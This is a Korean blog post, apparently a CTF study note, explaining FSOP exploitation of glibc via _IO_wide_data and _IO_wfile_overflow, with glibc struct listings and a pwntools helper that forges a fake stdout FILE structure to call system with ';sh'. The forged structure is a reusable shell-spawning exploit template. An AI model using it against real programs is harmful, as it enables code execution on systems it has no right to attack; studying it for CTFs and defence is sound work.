 이 세상에 FSOP 문제는 널리고 널렸지만 영어를 못하는 나는 질 좋은 FSOP 학습 자료를 볼 기회가 별로 없었다.

최근에 FSOP 문제가 너무나 눈에 띄었다. 2024 CCE Quals에서도 FSOP만 알고 있었다면 2시간 만에 풀 수 있었다. 특수한 상황에서만이 아니라, 일반적인(드림핵 4~6렙) 문제 접근에 성공하고 익스할 때, 항상 뭔가 막히면 FSOP 때문이었다.

FSOP까지만 제대로 알아도 든든한 웹이나 암호학 해커와 함께라면 2인으로도 청소년부 본선은 쉽게 갈 것 같다.

dreamhack-invitational-quals 채널에서 값진 문장 하나를 발견했다.

![](https://blogfiles.pstatic.net/MjAyNDEwMDhfMTEy/MDAxNzI4MzgyMTI0OTQx.c4dKOzCF48mwK2HPrs_Bn3XrTqRmaS9GWU4jeQCFl7Qg.im4cxWpwjrNbvScnCdsv17NQvkbVdoK9va1Rjv5upsMg.PNG/SE-96dbf2d6-529c-46e4-8fa2-0c672038f7d8.png?type=w1)


\_IO\_FILE 구조체와 \_IO\_wfile\_overflow에 대해 분석해보면 될 것 같다.

---

# \_IO\_wide\_data

glibc 버전이 높아지면서 vtable을 변조하면 IO_validate_vtable에 의해 걸리므로, \_wide\_vtable을 사용해야 한다.

\_IO\_FILE 구조체를 살펴보면

```C
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
struct _IO_wide_data *_wide_data;
```

여기에 \_IO\_wide\_data 가 있음을 알 수 있다.

```C
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;	/* Current read pointer */
  wchar_t *_IO_read_end;	/* End of get area. */
  wchar_t *_IO_read_base;	/* Start of putback+get area. */
  wchar_t *_IO_write_base;	/* Start of put area. */
  wchar_t *_IO_write_ptr;	/* Current put pointer. */
  wchar_t *_IO_write_end;	/* End of put area. */
  wchar_t *_IO_buf_base;	/* Start of reserve area. */
  wchar_t *_IO_buf_end;		/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  wchar_t *_IO_save_base;	/* Pointer to start of non-current get area. */
  wchar_t *_IO_backup_base;	/* Pointer to first valid character of
				   backup area */
  wchar_t *_IO_save_end;	/* Pointer to end of non-current get area. */

  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;

  wchar_t _shortbuf[1];

  const struct _IO_jump_t *_wide_vtable;
};
```

여기서 \_wide\_vtable을 확인할 수 있다. 즉, fp->\_wide\_data->\_wide\_vtable을 변조할 수 있다면 항상 익스 가능하다.

---

# \_IO\_wfile\_overflow

이제 함수를 분석해보자.

```C
wint_t
_IO_wfile_overflow (f, wch)
     _IO_FILE *f;
     wint_t wch;
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
    {
      /* Allocate a buffer if needed. */
      if (f->_wide_data->_IO_write_base == 0)
	{
	  _IO_wdoallocbuf (f);
	  _IO_wsetg (f, f->_wide_data->_IO_buf_base,
		     f->_wide_data->_IO_buf_base, f->_wide_data->_IO_buf_base);

	  if (f->_IO_write_base == NULL)
	    {
	      _IO_doallocbuf (f);
	      _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
	    }
	}
      else
	{
	  ...
}
libc_hidden_def (_IO_wfile_overflow)
```

\_IO\_wdoallocbuf(f)를 실행시키고자 한다.

if (f->\_flags & \_IO\_NO\_WRITES) 를 만족하지 않아야 한다.

if ((f->\_flags & \_IO\_CURRENTLY\_PUTTING) == 0) 를 만족해야 한다.

if (f->\_wide\_data->\_IO\_write\_base == 0) 를 만족해야 한다.

모두 만족했다면, 해당 함수로 들어간다.

```C
void
_IO_wdoallocbuf (FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)
      return;
  _IO_wsetb (fp, fp->_wide_data->_shortbuf,
		     fp->_wide_data->_shortbuf + 1, 0);
}
libc_hidden_def (_IO_wdoallocbuf)
```

\_IO\_WDOALLOCATE (fp)를 실행시키고자 한다.

if (fp->\_wide_data->\_IO\_buf\_base) 를 만족하지 않아야 한다.

if (!(fp->\_flags & \_IO\_UNBUFFERED)) 을 만족해야 한다. ( (fp->\_flags & \_IO\_UNBUFFERED) == 0 )

이 때 \_IO\_WDOALLOCATE은 \_IO\_wide\_data의 vtable을 참조하는 매크로이다. 따라서 FSOP가 성립한다.

문제에서 접근할 때, puts, write, scanf는 내부적으로 vtable의 함수를 호출하는데 이들을 잘 조작해서 \_IO\_wfile\_overflow가 호출되도록 하면 된다. \_IO\_wfile\_overflow는 \_IO\_validate\_vtable에 걸리지 않는 유효한 범위에 있으므로 가능하다.

한 줄로 정리하자면 fp -> \_wide\_data(변조) -> \_wide\_vtable(변조) -> one_gadget or system with fp = ';sh'

---

puts를 기준으로 정리해보자.

```python
def FSOP_struct(flags=0, _IO_read_ptr=0, _IO_read_end=0, _IO_read_base=0,
                _IO_write_base=0, _IO_write_ptr=0, _IO_write_end=0, _IO_buf_base=0, _IO_buf_end=0,
                _IO_save_base=0, _IO_backup_base=0, _IO_save_end=0, _markers=0, _chain=0, _fileno=0,
                _flags2=0, _old_offset=0, _cur_column=0, _vtable_offset=0, _shortbuf=0, lock=0,
                _offset=0, _codecvt=0, _wide_data=0, _freeres_list=0, _freeres_buf=0,
                __pad5=0, _mode=0, _unused2=b"", vtable=0, more_append=b""):
    
    FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
    FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
    FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
    FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
    FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)
    FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)
    FSOP += p64(__pad5) + p32(_mode)
    if _unused2 == b"":
        FSOP += b"\x00" * 0x14
    else:
        FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")
    
    FSOP += p64(vtable)
    FSOP += more_append
    return FSOP

fake_fsop_struct = l.sym['_IO_2_1_stdout_']
FSOP = FSOP_struct(
    flags=u64(b"\x01\x01\x01\x01;sh\x00"),
    lock=stdout_lock,
    _wide_data=fake_fsop_struct - 0x10,
    _markers=l.symbols["system"],
    _unused2=p32(0x0) + p64(0x0) + p64(fake_fsop_struct - 0x8),
    vtable=l.symbols["_IO_wfile_jumps"] - 0x20,
    _mode=0xFFFFFFFF,
)
```

puts는 내부적으로 \*vtable + 0x38에 있는 \_IO\_new\_file\_xsputn를 호출한다. 우리는 \*\_IO\_wfile\_jumps + 0x18에 있는 \_IO\_wfile\_overflow을 호출할 것이므로, vtable을 \*\_IO\_wfile\_jumps - 0x20으로 하면 offset을 맞출 수 있다.

\*\_wide\_data의 offset은 자유롭게 설정할 수 있지만, -0x10이 가장 무난해보인다. 이렇게 설정하면, \_wide\_vtable은 \_unused2의 마지막 부분에 있게 되므로, 이를 \*\_IO\_2\_1\_stdout\_ - 0x8로 바꾼다. 여기서의 offset 또한 자유이지만 가장 직관적인 것을 선택했다.

\_IO\_WDOALLOCATE는 \*wide\_vtable + 0x68을 참조하는 매크로이다. 따라서 위와 같이 FSOP를 진행했다면 \*\_IO\_2\_1\_stdout\_ + 0x60(- 0x8 + 0x68)인 \_markers 부분을 참조하는 것이다. 여기에 system함수나, one\_gadget을 넣어 쉘을 딸 수 있다.